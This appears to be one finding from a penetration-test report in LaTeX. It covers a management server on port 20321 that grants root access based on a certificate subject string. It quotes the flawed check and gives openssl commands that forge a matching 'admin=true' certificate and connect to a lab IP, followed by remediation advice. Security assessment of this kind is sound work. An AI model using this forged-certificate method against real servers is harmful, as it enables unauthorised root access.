\section{Finding 17 - Vulnerable Management Server on Port 20321}

%center under chapter title a one row table with 6 coloumns and no borders
\vspace*{-0,3cm}
\begin{center}
    \begin{tabular}{c c c c}
        \textbf{Classification:} & Vulnerable Software & \textbf{Severity:} & \textbf{\textcolor{red}{High}}  
        \end{tabular}
\end{center}

On port 20321 a management server is running. The server is vulnerable due to an insecure validation of certificate.


\subsection{Finding Impact}
Attacker can exploit this vulnerability to gain root access to the \ac{DUT}. This can be done by carefully crafting a certificate, which will be accepted as valid by the management server.

\subsection{Finding Details}
The cause of this vulnerability is the ”mgmtserver” python file in the directory “/usr/local/bin/”. The whole code of this file can be found in the appendix. The following code snippet shows the vulnerable part of the code:
\begin{lstlisting}[language=bash]
elif self._client_cert == "subject=CN = Management Client 
Certificate, O = Secure Systems Inc., OU = admin=true":
\end{lstlisting}
Knowing how the certificate is validated, an attacker can create a certificate with the same subject and organization and set the ”admin” parameter to true.
This can be done by using the following command:
\begin{lstlisting}[language=bash]
openssl req -x509 -newkey rsa:4096 -keyout client.key 
-out client.crt -days 365 -subj "/CN=Management Client
 Certificate/O=Secure Systems Inc./OU=admin=true"
\end{lstlisting}
After that a connection to the management server can easily established via openssl:
\begin{lstlisting}[language=bash]
openssl s_client -connect 172.16.0.29:20321 -key client.key
-cert client.crt
\end{lstlisting}
The management server will accept the certificate and the attacker has root access to the \ac{DUT}.:
%image
\begin{center}
    
\includegraphics[width=0.4\textwidth]{img/port20321_access_granted.png} 
\end{center}
After that the attacker has root access to the \ac{DUT}:
%image
\begin{center}
    
\includegraphics[width=0.6\textwidth]{img/port20321_admin_access.png}
\end{center}
\subsection{Evaluation of Results}
\begin{center}
    \begin{tabular}{cccc}
    \textbf{Effort to Fix:} & &\ \textbf{\textcolor{orange}{Medium}}\
    \end{tabular}
\end{center}
The validation if an User is an admin shouldn't be done by a criteria of the certificate. Instead think about a better way to validate if an user is an admin, for example by using a secure password.